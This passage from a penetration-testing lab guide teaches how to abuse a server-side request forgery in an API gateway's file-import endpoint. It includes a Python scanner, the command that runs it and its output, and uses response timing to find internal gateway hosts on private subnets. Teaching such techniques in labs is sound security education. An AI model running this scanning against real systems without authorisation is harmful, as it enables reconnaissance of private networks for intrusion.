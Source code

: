 A request to an invalid host took 60.155041 seconds. We can assume that the timeout is configured to one minute. Using this information, we can deduce if an IP is valid or not, in a technique similar to an Nmap host scan.3 If we search for a gateway (assuming the gateway ends with ".1"), we can discover the subnet the containers are running on.

Depending on your version of curl, the time_total variable may be in seconds instead of the milliseconds output show above. The total values would display as 0.178631 and 60.155041 respectively.

We need to balance request timeouts for either approach. If we simply wait for the server to respond to every request, our scans will take longer than if we enforce a timeout in our script. However, we may overwhelm the server and get false negatives if our timeout value is too aggressive.

Let's copy ssrf_port_scanner.py into a new file named ssrf_gateway_scanner.py. We'll update the new script to scan subnets for default gateways and constrain our port scanning to a single port to reduce scan time. The port we decide to scan does not matter since we are only attempting to determine if the host is up. We can resume port scanning once we know the IP range used by the internal network.

Since we're scanning for default gateways, we will always use ".1" as the fourth octet of our payload. Since 10.0.0.0/8 networks and 172.16.0.0/12 will always have a static first octet, we will need two for loops to iterate through the possible values of the second and third octets.

Scanning the 192.168.0.0/16 network yielded no response so let's focus on the 172.16.0.0/12 network.

baseurl = args.target

base_ip = "http://172.{two}.{three}.1"
timeout = float(args.timeout)

for y in range(--------FIX ME--------,256):
    for x in range(1,256):
        host = base_ip.format(two=int(y), three=int(x))
        print("Trying host: {host}".format(host=host))
        try:
            r = requests.post(url=baseurl, json={"url":"{host}:8000".format(host=host)}, timeout=timeout)

Listing 33 - Updated section of ssrf_gateway_scanner.py

Let's run the script.

kali@kali:~$ ./ssrf_gateway_scanner.py -t http://apigateway:8000/files/import
Trying host: http://172.16.1.1
        8000     timed out
Trying host: http://172.16.2.1
        8000     timed out
...
Trying host: http://172.16.15.1
        8000     timed out
Trying host: http://172.16.16.1
        8000     OPEN - returned 404
Trying host: http://172.16.17.1
        8000     timed out
Listing 34 - Subnet scanning results

Excellent. We found a live IP address at 172.16.16.1. Let's kill the process. It may seem odd that a gateway has an open port but this may be an idiosyncrasy of the underlying environment. The important takeaway here is that it responded differently than the other IPs. Even a "connection refused" message would indicate we had found something interesting.
